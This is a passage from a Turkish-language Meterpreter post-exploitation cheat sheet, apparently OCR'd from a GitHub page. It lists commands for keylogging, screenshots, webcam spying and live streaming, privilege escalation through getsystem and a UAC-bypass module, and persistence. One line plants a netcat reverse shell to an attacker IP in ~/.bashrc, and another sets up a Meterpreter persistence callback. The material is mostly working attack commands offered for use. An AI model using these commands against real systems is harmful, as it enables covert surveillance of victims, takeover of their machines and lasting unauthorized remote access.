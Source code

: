 netstat -an       # Aktif bağlantıları gösterir
### 📌 Keylogger Çalıştırma (Klavye Dinleme)
```bash
keyscan_start     # Klavye dinlemeye başlar
```
keyscan_dump      # Yakalanan tuş vuruşlarını gösterir
keyscan_stop      # Keylogger'ı durdurur
### 📌 Ekran Görüntüsü Alma:
```bash
screenshot
```
### 📌 Web Kamerasından Görüntü Alma:
```bash
webcam_list       # Kullanılabilir kameraları listeler
```
webcam_snap       # Fotoğraf çeker
webcam_stream     # Kamerayı canlı izlemeye başlar

🔹 3. Yetki Yükseltme (Privilege Escalation)
### 📌 Hangi yetkilerle çalıştığını görmek için:
```bash
getuid
```
### 📌 Sistem yöneticisi (admin/root) yetkisi almak için:
```bash
getsystem
```
Bu komut Windows’ta UAC Bypass yaparak sistem yöneticisi yetkisi kazanmaya çalışır.
### 📌 Alternatif yetki yükseltme yöntemleri:
```bash
use exploit/windows/local/bypassuac
```
set SESSION 1
exploit
### 📌 Linux’ta yetkili kullanıcı olup olmadığını görmek:
```bash
getprivs
```
Eğer root yetkisi alınmışsa, sistemin kontrolü tamamen ele geçirilmiş olur.

🔹 4. Arka Kapı Bırakma (Persistence)
Eğer bağlantının kesilmemesini istiyorsanız, Meterpreter’da kalıcılık sağlamak için aşağıdaki yöntemler kullanılabilir.
### 📌 Windows'ta Arka Kapı Bırakma:
```bash
run persistence -U -i 5 -p 4444 -r <saldırı_makinesi_IP>
```
Bu komut, Windows başladığında tekrar Meterpreter oturumu açmaya çalışır.
### 📌 Linux'ta Arka Kapı Bırakma:
```bash
echo 'nc -e /bin/bash <saldırı_makinesi_IP> 4444' >> ~/.bashrc
```
Bu, her terminal açıldığında saldırgana ters bağlantı sağlayacaktır.
